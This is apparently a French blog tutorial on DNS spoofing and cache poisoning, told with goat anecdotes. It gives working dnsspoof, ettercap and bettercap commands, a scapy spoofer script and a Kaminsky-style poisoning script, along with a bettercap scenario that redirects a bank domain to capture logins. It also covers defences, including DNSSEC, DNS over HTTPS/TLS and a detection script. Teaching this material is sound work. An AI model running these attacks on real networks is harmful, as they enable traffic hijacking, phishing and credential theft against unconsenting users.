







# DNS spoofing et cache poisoning : comment rediriger google.com vers l'enclos de mes chèvres

## Ou l'histoire de comment j'ai appris que l'annuaire d'Internet était aussi fiable qu'un GPS paramétré par mes chèvres

Il y a quelques années, j'ai voulu créer un petit réseau local pour gérer mes données d'élevage de chèvres. Oui, j'ai des bases de données sur mes chèvres. Ne me jugez pas. J'ai configuré un serveur DNS local pour faciliter l'accès : au lieu de taper `192.168.1.50`, je pouvais juste taper `goat-manager.local`.

Un jour, en testant quelque chose (j'ai oublié quoi, probablement une mauvaise idée), j'ai accidentellement redirigé `google.com` vers mon serveur local. Pendant 10 minutes, tout le monde chez moi qui essayait d'aller sur Google voyait ma page de gestion de chèvres.

Ma famille n'a pas trouvé ça drôle. Moi si.

Ce jour-là, j'ai compris la puissance terrifiante du DNS spoofing : avec quelques paquets bien placés, on peut transformer l'annuaire d'Internet en ce qu'on veut. Bienvenue dans le monde merveilleux où google.com peut pointer vers n'importe quoi.

## Le DNS : l'annuaire d'Internet qui fait confiance à tout le monde

### Comment ça marche normalement

Quand vous tapez `exemple.com` dans votre navigateur, voici ce qui se passe :



Le DNS fonctionne en hiérarchie. C'est élégant. C'est efficace. C'est aussi dangereusement naïf.

### Le cache : la performance qui tue

Pour éviter de redemander l'IP à chaque fois, tout le monde met les réponses en cache :



**Le problème** : Si on empoisonne un cache, tous ceux qui l'utilisent obtiennent de fausses informations.



C'est comme si quelqu'un remplaçait toutes les adresses dans l'annuaire téléphonique. Tout le monde appelle les mauvais numéros.

## DNS Spoofing : l'attaque locale

C'est la version "simple" : vous êtes sur le même réseau que la victime.

### Le principe



**La course** : L'attaquant doit répondre avant le vrai serveur DNS. Le premier qui répond gagne.

### Prérequis

1. Être sur le même réseau que la victime (WiFi du café, réseau d'entreprise, etc.)
2. Sniffer les requêtes DNS (en broadcast ou via ARP poisoning)
3. Répondre plus vite que le vrai DNS

### Outil 1 : dnsspoof (le classique)

```bash
# Installer (package dsniff)
sudo apt-get install dsniff

# Créer un fichier de redirections
cat > dns_redirects.txt << EOF
google.com       192.168.1.100
*.google.com     192.168.1.100
facebook.com     192.168.1.100
EOF

# Lancer l'attaque
sudo dnsspoof -i wlan0 -f dns_redirects.txt
```

Maintenant, toutes les requêtes DNS sur le réseau pour google.com ou facebook.com obtiennent `192.168.1.100` comme réponse.

**Ce qui se passe** :
```
# Victime fait :
nslookup google.com

# Voit :
Non-authoritative answer:
Name:    google.com
Address: 192.168.1.100  ← FAKE !
```

### Outil 2 : Ettercap (interface graphique)

```bash
# Lancer Ettercap
sudo ettercap -G

# Configuration :
# 1. Sniff → Unified sniffing (wlan0)
# 2. Hosts → Scan for hosts
# 3. Hosts → Add to Target 1 (victime)
# 4. Mitm → ARP poisoning (sniff remote)
# 5. Plugins → Manage plugins → dns_spoof
# 6. Éditer /etc/ettercap/etter.dns :
```

Fichier `/etc/ettercap/etter.dns` :
```
# Redirection simple
google.com      A   192.168.1.100
*.google.com    A   192.168.1.100

# Wildcard pour tout
*               A   192.168.1.100
```

### Outil 3 : Bettercap (le moderne)

```bash
sudo bettercap -iface wlan0
```

Dans la console interactive :
```bash
# Scanner le réseau
net.probe on

# Voir les cibles
net.show

# Configurer le DNS spoofing
set dns.spoof.domains google.com,*.google.com,facebook.com
set dns.spoof.address 192.168.1.100

# Activer ARP spoofing (pour intercepter)
set arp.spoof.targets 192.168.1.50  # IP victime
arp.spoof on

# Activer DNS spoofing
dns.spoof on

# Voir les requêtes DNS interceptées
events.stream on
```

Résultat dans bettercap :
```
[12:34:56] [dns.spoof] google.com > 192.168.1.100 (spoofed for 192.168.1.50)
[12:34:57] [dns.spoof] www.google.com > 192.168.1.100 (spoofed for 192.168.1.50)
```

### Script Python DIY

```python
#!/usr/bin/env python3
"""
DNS Spoofer simple - ÉDUCATIF UNIQUEMENT
"""

from scapy.all import *
import sys

def dns_spoof(pkt):
    """
    Intercepter les requêtes DNS et répondre avec une fausse IP
    """
    # Vérifier que c'est une requête DNS
    if pkt.haslayer(DNSQR):
        # Extraire le nom demandé
        queried_domain = pkt[DNSQR].qname.decode('utf-8')
        
        # Domaines à rediriger
        targets = ['google.com.', 'www.google.com.', 'facebook.com.']
        
        if queried_domain in targets:
            print(f"[*] Spoofing DNS pour {queried_domain}")
            
            # Créer une réponse DNS falsifiée
            spoofed_pkt = IP(
                dst=pkt[IP].src,
                src=pkt[IP].dst
            ) / UDP(
                dport=pkt[UDP].sport,
                sport=53
            ) / DNS(
                id=pkt[DNS].id,
                qr=1,  # C'est une réponse
                aa=1,  # Authoritative Answer
                qd=pkt[DNS].qd,  # Question originale
                an=DNSRR(
                    rrname=pkt[DNSQR].qname,
                    ttl=10,
                    rdata="192.168.1.100"  # IP falsifiée
                )
            )
            
            # Envoyer la réponse falsifiée
            send(spoofed_pkt, verbose=0)
            print(f"[+] Réponse envoyée : {queried_domain} -> 192.168.1.100")

def main():
    interface = "wlan0"
    
    print(f"[*] DNS Spoofer démarré sur {interface}")
    print("[*] Interception des requêtes DNS...")
    print("[*] CTRL+C pour arrêter\n")
    
    # Sniffer les paquets DNS (port 53)
    # Pour chaque paquet, appeler dns_spoof()
    sniff(
        iface=interface,
        filter="udp port 53",
        prn=dns_spoof,
        store=0
    )

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[!] Ce script doit être exécuté en root")
        sys.exit(1)
    main()
```

**Utilisation** :
```bash
sudo python3 dns_spoof.py
```

## DNS Cache Poisoning : l'attaque à distance

Le cache poisoning est plus complexe mais beaucoup plus puissant : on empoisonne le cache d'un serveur DNS, et tous ses utilisateurs sont affectés.

### L'attaque Kaminsky (2008) : la fin de l'innocence

Dan Kaminsky a découvert une vulnérabilité qui a secoué Internet.

**Le problème** : Les serveurs DNS acceptaient les réponses basées sur un Transaction ID de 16 bits (65536 possibilités).



**L'astuce** : Demander des sous-domaines aléatoires qui n'existent pas. Le serveur DNS doit aller les chercher (pas de cache). On a une nouvelle chance à chaque requête.

### La technique en détail

```python
#!/usr/bin/env python3
"""
Démonstration du DNS Cache Poisoning (Kaminsky attack)
ÉDUCATIF - NE PAS UTILISER EN PRODUCTION
"""

from scapy.all import *
import random
import string

def generate_random_subdomain():
    """Générer un sous-domaine aléatoire"""
    length = 10
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(length))

def poison_dns_cache(target_dns, target_domain, fake_ip):
    """
    Empoisonner le cache DNS d'un serveur
    
    target_dns: IP du serveur DNS à empoisonner
    target_domain: domaine à rediriger (ex: google.com)
    fake_ip: IP vers laquelle rediriger
    """
    
    print(f"[*] Tentative d'empoisonnement de {target_dns}")
    print(f"[*] Cible: {target_domain} -> {fake_ip}\n")
    
    attempts = 0
    
    while attempts < 1000:  # Limiter les tentatives
        # Générer un sous-domaine aléatoire
        random_subdomain = generate_random_subdomain()
        query = f"{random_subdomain}.{target_domain}"
        
        # Générer un Transaction ID aléatoire
        txid = random.randint(1, 65535)
        
        # Créer la requête DNS légitime
        dns_query = IP(dst=target_dns) / UDP(dport=53) / DNS(
            id=txid,
            rd=1,  # Recursion Desired
            qd=DNSQR(qname=query)
        )
        
        # Envoyer la requête
        send(dns_query, verbose=0)
        
        # Envoyer un flood de réponses avec différents IDs
        for fake_id in range(txid - 100, txid + 100):
            # Réponse falsifiée avec Additional Record (le poison)
            dns_response = IP(dst=target_dns, src="8.8.8.8") / UDP(
                dport=random.randint(1024, 65535),
                sport=53
            ) / DNS(
                id=fake_id,
                qr=1,  # Response
                aa=1,  # Authoritative
                qd=DNSQR(qname=query),
                an=DNSRR(rrname=query, rdata="1.2.3.4"),  # Réponse pour le random
                ns=DNSRR(
                    rrname=target_domain,
                    type="NS",
                    rdata="ns.attacker.com"
                ),
                ar=DNSRR(
                    rrname="ns.attacker.com",
                    type="A",
                    rdata=fake_ip  # LE POISON
                )
            )
            
            send(dns_response, verbose=0)
        
        attempts += 1
        
        if attempts % 10 == 0:
            print(f"[*] {attempts} tentatives...")
            
            # Vérifier si ça a marché
            try:
                result = sr1(
                    IP(dst=target_dns) / UDP(dport=53) / DNS(
                        rd=1,
                        qd=DNSQR(qname=target_domain)
                    ),
                    timeout=2,
                    verbose=0
                )
                
                if result and result.haslayer(DNS):
                    answer = result[DNS].an
                    if answer and answer.rdata == fake_ip:
                        print(f"\n[+] SUCCÈS ! Cache empoisonné !")
                        print(f"[+] {target_domain} pointe maintenant vers {fake_ip}")
                        return True
            except:
                pass
    
    print("\n[-] Échec après 1000 tentatives")
    return False

# Exemple d'utilisation (NE PAS EXÉCUTER en prod)
if __name__ == "__main__":
    print("=" * 60)
    print("DNS Cache Poisoning - Démonstration Kaminsky Attack")
    print("ÉDUCATIF UNIQUEMENT - Utiliser sur un lab isolé")
    print("=" * 60)
    
    # Configuration (VOTRE LAB UNIQUEMENT)
    # target_dns_server = "192.168.1.1"  # Votre DNS local
    # target_domain = "test.local"       # Domaine de test
    # fake_ip = "192.168.1.100"          # Votre serveur
    
    # poison_dns_cache(target_dns_server, target_domain, fake_ip)
    
    print("\n[!] Script désactivé par sécurité")
    print("[!] Décommentez le code uniquement sur un lab isolé")
```

### Pourquoi ça ne marche plus (en théorie)

Après Kaminsky, plusieurs protections ont été ajoutées :

1. **Port source aléatoire** : Le serveur DNS utilise un port source aléatoire en plus du Transaction ID
   - Avant : 65 536 possibilités (16 bits)
   - Après : 65 536 × 65 536 = 4,3 milliards de possibilités

2. **0x20 encoding** : Mélanger majuscules/minuscules dans les requêtes
   - `google.com` → `GoOgLe.CoM`
   - La réponse doit correspondre exactement

3. **DNSSEC** : Signatures cryptographiques
   - Chaque réponse est signée
   - Impossible de forger sans la clé privée

Mais... toutes les implémentations ne sont pas parfaites.

## Scénarios d'attaque réels

### 1. Phishing ciblé

```bash
# Rediriger bank.com vers une copie parfaite
set dns.spoof.domains bank.com,www.bank.com
set dns.spoof.address 192.168.1.200  # Votre faux site
dns.spoof on

# Sur 192.168.1.200, héberger une copie du site
# Capturer les identifiants
```

La victime voit l'URL correcte dans son navigateur, mais le contenu vient de vous.

### 2. Bypass de restrictions

```bash
# L'entreprise bloque facebook.com au niveau DNS
# Créer un tunnel vers un DNS non censuré
set dns.spoof.domains facebook.com
set dns.spoof.address 151.101.1.140  # Vraie IP de Facebook
dns.spoof on
```

### 3. Analyse de trafic

```bash
# Rediriger tout vers votre proxy transparent
set dns.spoof.all true
set dns.spoof.address 192.168.1.100
dns.spoof on

# Sur 192.168.1.100 : proxy qui log tout puis forward
```

## Se protéger : DNSSEC et au-delà

### 1. DNSSEC : la signature cryptographique

DNSSEC signe cryptographiquement chaque réponse DNS :



**Vérifier si un domaine utilise DNSSEC** :

```bash
# Installer dig
sudo apt-get install dnsutils

# Vérifier DNSSEC
dig +dnssec google.com

# Chercher le flag "ad" (authenticated data)
# et les enregistrements RRSIG
```

**Problème** : Adoption lente. Beaucoup de domaines n'utilisent pas DNSSEC.

### 2. DNS over HTTPS (DoH) / DNS over TLS (DoT)

Chiffrer les requêtes DNS pour empêcher l'interception :



**Configurer DoH dans Firefox** :
```
Paramètres → Vie privée et sécurité
→ Activer "DNS via HTTPS"
→ Choisir Cloudflare ou NextDNS
```

**Configurer DoT sur Linux** :

```bash
# Installer systemd-resolved (Ubuntu)
sudo apt-get install systemd-resolved

# Éditer /etc/systemd/resolved.conf
[Resolve]
DNS=1.1.1.1 9.9.9.9
DNSOverTLS=yes

# Redémarrer
sudo systemctl restart systemd-resolved
```

**Tester** :
```bash
# Vérifier que DoT est actif
resolvectl status

# Faire une requête
dig google.com
```

### 3. Utiliser des DNS de confiance

```bash
# Cloudflare (rapide, respecte la vie privée)
nameserver 1.1.1.1
nameserver 1.0.0.1

# Quad9 (bloque les malwares)
nameserver 9.9.9.9
nameserver 149.112.112.112

# Google (rapide, mais Google)
nameserver 8.8.8.8
nameserver 8.8.4.4
```

### 4. Détecter le DNS spoofing

**Script de détection** :

```python
#!/usr/bin/env python3
"""
Détecter le DNS spoofing en comparant plusieurs sources
"""

import dns.resolver
import sys

def check_dns_consistency(domain):
    """
    Interroger plusieurs DNS publics et comparer
    """
    dns_servers = {
        'Cloudflare': '1.1.1.1',
        'Google': '8.8.8.8',
        'Quad9': '9.9.9.9',
        'OpenDNS': '208.67.222.222'
    }
    
    results = {}
    
    print(f"[*] Vérification de {domain} sur plusieurs DNS...\n")
    
    for name, server in dns_servers.items():
        resolver = dns.resolver.Resolver()
        resolver.nameservers = [server]
        
        try:
            answers = resolver.resolve(domain, 'A')
            ips = [str(rdata) for rdata in answers]
            results[name] = ips
            print(f"[+] {name:15} : {', '.join(ips)}")
        except Exception as e:
            print(f"[-] {name:15} : Erreur - {e}")
            results[name] = None
    
    # Comparer les résultats
    print("\n[*] Analyse...")
    
    unique_results = set()
    for name, ips in results.items():
        if ips:
            unique_results.add(tuple(sorted(ips)))
    
    if len(unique_results) > 1:
        print("[!] ALERTE : Réponses DNS incohérentes détectées !")
        print("[!] Possible DNS spoofing ou cache poisoning")
        return False
    else:
        print("[✓] Toutes les réponses sont cohérentes")
        return True

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 dns_check.py <domain>")
        sys.exit(1)
    
    domain = sys.argv[1]
    check_dns_consistency(domain)
```

**Utilisation** :
```bash
python3 dns_check.py google.com
```

Si les résultats diffèrent, c'est suspect !

### 5. Monitoring avec dnstwist

Détecter les typosquatting et domains malveillants :

```bash
# Installer
pip3 install dnstwist

# Chercher des domaines similaires à google.com
dnstwist google.com

# Résultat : liste de domaines proches
# goog1e.com, gooogle.com, googIe.com (I majuscule)
# etc.
```

## L'analogie avec les chèvres (parce que c'est obligatoire)

Mes chèvres m'ont appris le DNS spoofing d'une manière inattendue.

Un jour, j'ai voulu diriger mes chèvres vers un nouveau pâturage. J'ai tracé un chemin avec du foin. Simple, non ?

Sauf que Lagertha (encore une pilote EVE Online - je suis prévisible) a compris le système. Elle a déplacé le foin pour créer un chemin vers SA mangeoire préférée. Résultat : toutes les chèvres ont suivi le faux chemin.

C'est exactement le DNS spoofing :
- **Le foin** = les réponses DNS
- **Le vrai chemin** = les vraies IPs
- **Lagertha** = l'attaquant qui modifie les indications
- **Les autres chèvres** = les utilisateurs qui suivent aveuglément

La solution ? J'ai appris à vérifier que c'était bien MOI qui avais placé le foin. Exactement comme DNSSEC vérifie que c'est bien le serveur légitime qui répond.

Lagertha continue d'essayer. Mais maintenant je vérifie. Toujours.

## Ce qu'il faut retenir

Le DNS est un des protocoles les plus critiques d'Internet. Et aussi un des plus vulnérables historiquement.

**DNS Spoofing (local)** :
- Facile sur un réseau local
- Nécessite d'être sur le même réseau
- Limité en portée mais efficace

**DNS Cache Poisoning (distant)** :
- Plus difficile depuis Kaminsky fix
- Impact massif (tous les utilisateurs du DNS)
- Encore possible sur des implémentations faibles

**Pour se protéger** :
1. DNSSEC quand disponible
2. DNS over HTTPS/TLS
3. Utiliser des DNS de confiance
4. Vérifier la cohérence avec plusieurs sources
5. HTTPS partout (protège même si DNS compromis)

**Pour attaquer (éthiquement)** :
1. Lab isolé uniquement
2. dnsspoof / bettercap / ettercap
3. Combiner avec ARP spoofing
4. Comprendre les protections modernes

## Conclusion

Le DNS spoofing et cache poisoning sont des attaques fascinantes par leur simplicité conceptuelle et leur impact potentiel. Avec quelques paquets bien placés, on peut rediriger tout un réseau vers de faux sites.

J'ai appris deux choses importantes :

1. **Ne jamais faire confiance au DNS sans vérification** - Comme je ne fais plus confiance à Lagertha avec le placement du foin.

2. **Les couches de sécurité sauvent** - HTTPS protège même si le DNS ment. Le certificat ne correspondra pas, et le navigateur alertera.

Depuis mes expériences avec le DNS (et avec mes chèvres), j'utilise systématiquement :
- DNS over HTTPS dans tous mes navigateurs
- HTTPS Everywhere comme extension
- Un VPN sur les réseaux publics
- Des vérifications régulières de cohérence DNS

Parce que si Lagertha m'a appris quelque chose, c'est que quelqu'un essaie TOUJOURS de rediriger le trafic à son avantage.

---

*PS : Oui, j'ai vraiment redirigé google.com vers ma page de gestion de chèvres. Non, ma famille ne m'a toujours pas pardonné. Oui, ça valait le coup.*

*PPS : Si vous testez le DNS spoofing sur votre réseau domestique, prévenez d'abord votre famille. J'ai appris cette leçon à 2h du matin quand mon conjoint n'arrivait plus à regarder Netflix. Erreur de débutante.*

*PPPS : Lagertha continue d'essayer de manipuler le chemin du foin. Je pense qu'elle a une carrière future en tant que pentester chèvre.*
